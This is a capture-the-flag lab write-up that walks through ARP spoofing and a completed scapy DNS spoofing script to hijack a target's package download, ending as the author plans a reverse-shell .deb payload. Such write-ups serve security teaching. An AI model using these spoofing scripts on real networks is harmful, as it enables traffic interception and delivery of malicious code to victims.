

Challenge 09 - ARP Shenanigans
Challenge
Difficulty: 4/5
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at
/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
Shell
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware.
Help the North Pole by getting command line access back to this host.
Read the HELP.md file for information to help you in this endeavor.
Note: The terminal lifetime expires after 30 or more minutes so be
sure to copy off any essential work you have done as you go.
guest@321e48198541:~$
Solution
Note: changes from hostname are due to exiting and entering terminal
Recon
Step 01
Let's first see what kind of environment we're working with.
guest@21925e0c7e13:~$ ll
total 40
drwxr-xr-x 1 guest guest 4096 Jan 11 00:03 ./
drwxr-xr-x 1 root root 4096 Nov 30 18:57 ../
-rw-r--r-- 1 guest guest 220 Feb 25 2020 .bash_logout
-rw-r--r-- 1 guest guest 3771 Feb 25 2020 .bashrc
-rw-r--r-- 1 guest guest 807 Feb 25 2020 .profile
-rw-r--r-- 1 guest guest 830 Dec 5 00:00 HELP.md
drwxr-xr-x 1 guest guest 4096 Dec 7 21:11 debs/
lrwxrwxrwx 1 guest guest 9 Dec 7 21:11 motd -> /etc/motd
drwxr-xr-x 1 guest guest 4096 Dec 1 15:27 pcaps/
drwxr-xr-x 1 guest guest 4096 Dec 7 21:11 scripts/
guest@21925e0c7e13:~$ ifconfig
eth0: flags=4419<UP,BROADCAST,RUNNING,PROMISC,MULTICAST> mtu 1500
inet 10.6.0.4 netmask 255.255.0.0 broadcast 10.6.255.255
ether 02:42:0a:06:00:04 txqueuelen 0 (Ethernet)
RX packets 34 bytes 1748 (1.7 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
loop txqueuelen 1000 (Local Loopback)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
guest@21925e0c7e13:~$ ping 10.6.6.35
PING 10.6.6.35 (10.6.6.35) 56(84) bytes of data.
64 bytes from 10.6.6.35: icmp_seq=1 ttl=64 time=0.169 ms
64 bytes from 10.6.6.35: icmp_seq=2 ttl=64 time=0.097 ms
64 bytes from 10.6.6.35: icmp_seq=3 ttl=64 time=0.091 ms
64 bytes from 10.6.6.35: icmp_seq=4 ttl=64 time=0.094 ms
64 bytes from 10.6.6.35: icmp_seq=5 ttl=64 time=0.111 ms
^C
--- 10.6.6.35 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4076ms
rtt min/avg/max/mdev = 0.091/0.112/0.169/0.029 ms
guest@21925e0c7e13:~$ cd debs/; ll
total 2556
drwxr-xr-x 1 guest guest 4096 Dec 7 21:11 ./
drwxr-xr-x 1 guest guest 4096 Jan 11 00:03 ../
-rw-r--r-- 1 guest guest 94748 Dec 5 00:00 gedit-common_3.36.1-1_all.deb
-rw-r--r-- 1 guest guest 14484 Dec 5 00:00 golang-github-huandu-xstrings-dev_1.2.1-1_all.deb
-rw-r--r-- 1 guest guest 269332 Dec 5 00:00 nano_4.8-1ubuntu1_amd64.deb
-rw-r--r-- 1 guest guest 61504 Dec 5 00:00 netcat-traditional_1.10-41.1ubuntu1_amd64.deb
-rw-r--r-- 1 guest guest 1662268 Dec 5 00:00 nmap_7.80+dfsg1-2build1_amd64.deb
-rw-r--r-- 1 guest guest 322680 Dec 5 00:00 socat_1.7.3.3-2_amd64.deb
-rw-r--r-- 1 guest guest 168956 Dec 5 00:00 unzip_6.0-25ubuntu1_amd64.deb
guest@21925e0c7e13:~/debs$ cd ../scripts/; ll
total 16
drwxr-xr-x 1 guest guest 4096 Dec 7 21:11 ./
drwxr-xr-x 1 guest guest 4096 Jan 11 00:03 ../
-rwxr-xr-x 1 guest guest 1290 Dec 4 21:34 arp_resp.py*
-rwxr-xr-x 1 guest guest 1526 Dec 7 21:10 dns_resp.py*
guest@21925e0c7e13:~/scripts$ cd ../pcaps/; ll
total 16
drwxr-xr-x 1 guest guest 4096 Dec 1 15:27 ./
drwxr-xr-x 1 guest guest 4096 Jan 11 00:03 ../
-rw-r--r-- 1 guest guest 176 Nov 30 18:23 arp.pcap
-rwxr-xr-x 1 guest guest 220 Nov 30 18:23 dns.pcap*
guest@21925e0c7e13:~/pcaps$
So it looks like we have a bunch of traditional text editing tools, some utility tools, and some networking tools. We also have couple address resolution/domain name scripts and pcaps. We're also able to send ICMP packets to our target, so we should be able to start scanning it to see what we're dealing with.
Step 02
Let's see what tools we can use
guest@21925e0c7e13:~$ apt install debs/nmap_7.80+dfsg1-2build1_amd64.deb
E: Could not open lock file /var/lib/dpkg/lock-frontend - open (13: Permission denied)
E: Unable to acquire the dpkg frontend lock (/var/lib/dpkg/lock-frontend), are you root?
guest@21925e0c7e13:~$ find / -name *nmap* 2> /dev/null
/home/guest/debs/nmap_7.80+dfsg1-2build1_amd64.deb
/usr/local/lib/python3.8/dist-packages/scapy/modules/nmap.py
/usr/local/lib/python3.8/dist-packages/scapy/modules/__pycache__/nmap.cpython-38.pyc
/proc/sys/vm/min_unmapped_ratio
guest@2f062415b43e:~$ which nc
/usr/bin/nc
guest@2f062415b43e:~$ which python
guest@2f062415b43e:~$ which python3
/usr/bin/python3
guest@2f062415b43e:~$ which pip3
/usr/bin/pip3
guest@2f062415b43e:~$ which tcpdump
/usr/sbin/tcpdump
guest@2f062415b43e:~$ which wireshark
guest@2f062415b43e:~$ which tshark
/usr/bin/tshark
guest@2f062415b43e:~$ cat scripts/arp_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
def handle_arp_packets(packet):
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst="SOMEMACHERE", type=0x806, src="SOMEMACHERE")
arp_response = ARP(pdst="SOMEMACHERE")
arp_response.op = 99999
arp_response.plen = 99999
arp_response.hwlen = 99999
arp_response.ptype = 99999
arp_response.hwtype = 99999
arp_response.hwsrc = "SOMEVALUEHERE"
arp_response.psrc = "SOMEVALUEHERE"
arp_response.hwdst = "SOMEVALUEHERE"
arp_response.pdst = "SOMEVALUEHERE"
response = ether_resp/arp_response
sendp(response, iface="eth0")
def main():
# We only want arp requests
berkeley_packet_filter = "(arp[6:2] = 1)"
# sniffing for one packet that will be sent to a function, while storing none
sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)
if __name__ == "__main__":
main()guest@2f062415b43e:~$
guest@2f062415b43e:~$
guest@2f062415b43e:~$ cat scripts/dns_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00") # need to replace mac addresses
ip = IP(dst="0.0.0.0", src="0.0.0.0") # need to replace IP addresses
udp = UDP(dport=99999, sport=99999) # need to replace ports
dns = DNS(
# MISSING DNS RESPONSE LAYER VALUES
)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
def main():
berkeley_packet_filter = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(ipaddr_we_arp_spoofed), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(macaddr) # our macaddress since we spoofed the ip to our mac
] )
# sniff the eth0 int without storing packets in memory and stopping after one dns request
sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
main()
guest@2f062415b43e:~$
Given the challenges tools, we're probably on the same LAN as the target. Therefore, we can sniff some packets to see what the target is sending and receiving.
Step 03
Let's capture some packets to see what's going on.
guest@213231b7d960:~$ tshark -n -i eth0 -c 10
Capturing on 'eth0'
1 0.000000000 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
2 1.039973169 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
3 2.071938986 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
4 3.115916416 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
5 4.147991531 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
6 5.179945590 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
7 6.211994280 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
8 7.243910002 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
9 8.299962238 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
10 9.339999466 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
10 packets captured
guest@213231b7d960:~$
Step 04
Let's load the pcaps to see what we can find out about the target.
guest@2f062415b43e:~$ python3
Python 3.8.5 (default, Jul 28 2020, 12:59:40)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>>
>>> arp_cap = rdpcap('pcaps/arp.pcap')
>>> dns_cap = rdpcap('pcaps/dns.pcap')
>>>
>>> arp_cap.show()
0000 Ether / ARP who has 10.10.10.1 says 10.10.10.2 / Padding
0001 Ether / ARP is at cc:00:10:dc:00:00 says 10.10.10.1 / Padding
>>>
>>> dns_cap.show()
0000 Ether / IP / UDP / DNS Qry "b'www.netbsd.org.'"
0001 Ether / IP / UDP / DNS Ans "204.152.190.12"
>>>
>>> arp_cap[0][ARP]
<ARP hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=who-has hwsrc=cc:01:10:dc:00:00 psrc=10.10.10.2 hwdst=00:00:00:00:00:00 pdst=10.10.10.1
|<Padding load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>
>>>
>>> arp_cap[1][ARP]
<ARP hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=cc:00:10:dc:00:00 psrc=10.10.10.1 hwdst=cc:01:10:dc:00:00 pdst=10.10.10.2 |<
Padding load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>
The pcaps don' appear to tell us anything about the target. Therefore, we'll probably need to spoof the ARP to get more info about the target.
Step 05
ARP spoofing is a Machine in the Middle (MitM) attack that allows us to be the machine in the middle of two devices on a network: a gateway (e.g. router) and a target. To fool both, we'll use the ARP protocol to associate our MAC address with each of the devices destination MAC address so that they connect to us instead of each other.
First, we need to get the target's MAC address.
# python3
>>> broadcast = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op=1, pdst='10.6.6.35')
>>> res = srp(broadcast)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> res[0][0][1].hwsrc
'4c:24:57:ab:ed:84'
Next we need out Gateway's MAC:
# python3
>>> broadcast = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op=1, pdst='10.6.6.53')
>>> res = srp(broadcast)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> res[0][0][1].hwsrc
'fa:34:41:59:86:52'
Step 06
Then, we can use Prasoon Nath's arpspoofer.py, albeit modifying it so that it runs on python3.x.
guest@b7fc447d61f1:~/scripts$ python3 arpspoofer.py
Enter Target IP:10.6.6.35
Enter Gateway IP:10.6.6.53
Target MAC 4c:24:57:ab:ed:84
Gateway MAC: fa:34:41:59:86:52
Sending spoofed ARP responses
Step 07
After running the ARP spoofing script, we are now the MitM and thus can see some DNS requests for something at ftp.osuosl.org

Step 08
We can then do some DNS spoofing to see what's going on, and to maybe deliver a payload to the target.
Modifying the given dns_resp.py with help from this DNS spoofing guide from Dartmouth University:
# dns_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# Gateway IP address (spoofed)
gateway_ip = '10.6.6.53'
# Target IP address
target_ip = '10.6.6.35'
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = gateway_ip
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src=packet.dst, dst=packet.src) # need to replace mac addresses
ip = IP(dst=target_ip, src=gateway_ip) # need to replace IP addresses
udp = UDP(dport=packet.sport, sport=packet.dport) # need to replace ports
dns = DNS(an=DNSRR(rdata=ipaddr, rrname='ftp.osuosl.org'),
ancount=1,
id=packet[DNS].id,
qd=packet[DNS].qd,
qr=1,
aa=1)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
def main():
berkeley_packet_filter = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(ipaddr_we_arp_spoofed), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(macaddr) # our macaddress since we spoofed the ip to our mac
] )
# sniff the eth0 int without storing packets in memory and stopping after one dns request
sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
main()
We can assume that the target is trying to access ftp.osuosl.org either via HTTP (curl, wget, etc.) or FTP. Let's try FTP first.
guest@0b3c9c30735c:~/scripts$ python3 -m http.server 21
Serving HTTP on 0.0.0.0 port 21 (http://0.0.0.0:21/) ...
guest@0b3c9c30735c:~/scripts$ ./dns_resp.py
.
Sent 1 packets.
guest@0b3c9c30735c:~/scripts$
Nothing captured. Let's try HTTP.
guest@0b3c9c30735c:~/scripts$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
guest@0b3c9c30735c:~/scripts$ ./dns_resp.py
.
Sent 1 packets.
guest@0b3c9c30735c:~/scripts$
We captured a GET request:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [11/Jan/2021 06:15:32] code 404, message File not found
10.6.6.35 - - [11/Jan/2021 06:15:32] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
guest@0b3c9c30735c:~/scripts$
Therefore, as the MitM, we can deliver on the target's GET request for /pub/jfrost.backdoor/suriv_amd64.deb. We can modify the .deb files to deliver a payload. We just need to figure out what payload to send and to rename the .deb so that the target gets it.
Weaponization
Step 09
Knowing that the target is trying to download a .deb, they will likely try to install it after download. Therefore, our payload should start a reverse shell once the target tries to install the .deb.
According to rigved and Cashew, there should be a "postinst shell script located in the debian folder in the source".
And it turns out that there are hints for this challenge that I completely missed and that this given guide seems extremely useful.